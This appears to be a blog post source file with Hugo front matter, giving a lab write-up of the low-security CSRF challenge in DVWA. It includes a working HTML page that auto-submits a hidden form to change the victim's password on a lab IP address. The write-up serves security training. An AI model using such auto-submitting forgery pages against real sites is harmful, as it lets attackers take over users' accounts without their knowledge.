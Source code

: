 ```yaml
---
title: "Cross Site Request Forgery (CSRF) - DVWA"
description: ""
summary: "Changing the victim's password using CSRF."
date: 2022-08-17
draft: false
author: "Aftab Sama" # ["Me", "You"] # multiple authors
tags: ["writeups", "challenge", "DVWA", "CSRF"]
canonicalURL: ""
showToc: true
TocOpen: false
TocSide: 'right'  # or 'left'
weight: 3
# aliases: ["/first"]
hidemeta: false
comments: false
disableHLJS: true # to disable highlightjs
disableShare: true
hideSummary: false
searchHidden: false
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
# UseHugoToc: true
cover:
    image: "<image path/url>" # image path/url
    alt: "<alt text>" # alt text
    caption: "<text>" # display caption under cover
    relative: false # when using page bundles set this to true
    hidden: true # only hide on current single page
# editPost:
#     URL: "https://github.com/"
#     Text: "Suggest Changes" # edit text
#     appendFilePath: true # to append file path to Edit link
---
```



### **Security level: low**

<img width="827" alt="image" src="https://user-images.githubusercontent.com/79740895/185393318-096ce7f2-f881-4aee-ba63-1a6c2074fb52.png">

Here we can change password, there is no csrf protection. We can create simple form to auto submit and change password of victim.

HTML code for CSRF:
  
```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.170.131/vulnerabilities/csrf/">
      <input type="hidden" name="password&#95;new" value="pass" />
      <input type="hidden" name="password&#95;conf" value="pass" />
      <input type="hidden" name="Change" value="Change" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```
